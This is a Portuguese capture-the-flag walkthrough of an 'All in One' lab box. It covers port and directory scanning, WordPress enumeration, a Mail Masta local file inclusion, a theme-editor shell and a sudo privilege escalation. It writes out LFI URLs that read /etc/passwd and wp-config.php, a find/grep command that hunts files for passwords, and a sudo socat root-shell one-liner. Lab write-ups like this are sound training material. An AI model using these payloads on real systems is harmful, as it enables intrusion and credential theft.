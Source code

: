 # _**All in one CTF**_
![](all.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos login anônimo via FTP e um _web-server_  
Vamos investigar primeiro apenas a página web  
Parece ser a página _default_ do Apache2  
Agora, vamos realizar login via FTP  
Nenhum arquivo  

Segundo, vamos realizar uma enumeração de diretórios com <mark>Gobuster</mark>
> ```
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos um diretório _wordpress_  
Vamos realizar novamente um scan com <mark>Gobuster</mark>, mas com uma _wordlist_ diferente  
> ```bash
> gobuster dir --url [ip_address]/wordpress -w ../seclists/Discovery/Web-Content/CMS/wordpress.fuzz.txt
> ```
![](wp_gobuster.jpg)

Temos um LONGO retorno  
Mas por enquanto, iremos deixar de lado  
Vamos investigar a página seguindo alguns links encontrados  
Após um pouco de leitura, um dos links que nos chama a atenção é: _/wordpress/wp-login.php_  
Verificando, temos uma página de login  

## _**Ganhando acesso**_

Tentamos primeiro qualquer login, nada  
Segundo, tentamos login com credenciais de administrador (admin:admin), também nada  
Terceiro, o _username_ no site, **elyana**, com credenciais normais, nenhum sucesso  

Já fazia um tempo que não acontecia, mas resolvi tentar um <mark>brute force com hydra</mark>  
E sucesso!  

![](hydra_brute.jpg)  

Apesar, nenhuma das senhas funcionou  
Parece que vamos ter que achar outra maneira  
Com nenhuma outra opção em mente, voltamos a estaca zero e novamente com um scan de diretórios
> ```bash
> gobuster dir --url [ip_address] -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
> ```
![](medium.jpg)

Verificando o novo diretório encontrado, parece que temos uma senha  
Vamos tentar na página de login do wordpress com elyana  
Nada  
Jogando a senha no google, parece que está criptografada com **Vigènere**  
Usando a ferramenta <mark>CyberChef</mark>, temos resultado  

![](vigènere.jpg)

Tentano realizar login com o usuário elyana e essa nova senha, mas nada!  
Vamos buscar outras maneiras  
Com a ferramenta <mark>wpscan</mark>, que realiza varreduras automáticas em sites WordPress para detectar diversas informações, incluindo vulnerabilidades!  
> ```bash
> wpscan --url [ip_address]/wordpress -e u
> wpscan --url [ip_address]/wordpress -e ap
> ```
![](user_detected.jpg)  

![](plugins.jpg)

Parece que temos 3 informações valiosas:
* ```username```: elyana (já mencionado)
* ```plugin```: <mark>mail-masta</mark> e <mark>reflex-gallery</mark>

Procurando por vulnerabilidades referentes a estes _plugins_, encontramos o seguinte:
* [WordPress Plugin Mail Masta 1.0 - Local File Inclusion](https://www.exploit-db.com/exploits/40290)
* [WordPress Plugin Reflex Gallery 3.1.3 - Arbitrary File Upload](https://www.exploit-db.com/exploits/36374)

Vamos tentar explorar LFI  
Tentando a seguinte URL: ```../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd```  

![](etc_passwd.jpg)  

Sucesso!  
Vamos tentar buscar <mark>wp-config.php</mark>  
URL: ```../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php```  

![](config_php.jpg)

Decodificando a _string_ base64, temos:  

![](base_decrypt.jpg)

Investigando o arquivo, encontramos usuário e senha para **elyana**  
Vamos realizar login  
Após, navegamos para: <mark>Appearance > Theme Editor ></mark>  
Nele, trocamos na lateral para _theme_functions_ e adicionamos nosso código _.PHP_  
Nisso, conseguimos obter uma shell!  

![](shell.jpg)  

## _**Escalando privilégios**_
Para escalarmos privilégios, vamos investigar o sistema com alguns comandos  

![](find.jpg)

Parece que temos o serviço ```pkexec``` e também na versão <mark>0.105</mark>  
Sabemos já como escalar privilégios  
Mas parece que não iremos conseguir, permissão negada  
Vamos buscar outra maneira  
Uma dica diz que no sistema, a senha de **elyana** está escondida  
> ```bash
> find / -user elyana -type f -exec grep -iE 'user|password' {} \; 2>/dev/null
> ```
![](user_pass.jpg)

Sucesso!  
Vamos tentar login via SSH  
Conseguimos  
Agora para escalarmos privilégios, vamos primeiro executar o comando ```sudo -l```  

![](sudo_l.jpg)

Podemos executar o seguinte comando para obter _root_
> ```bash
> sudo socat - EXEC:'sh -li',pty,stderr,setsid,sigint,sane
> ```
![](root.jpg)

Agora só ir atrás das flags que estão criptografadas em **base64**
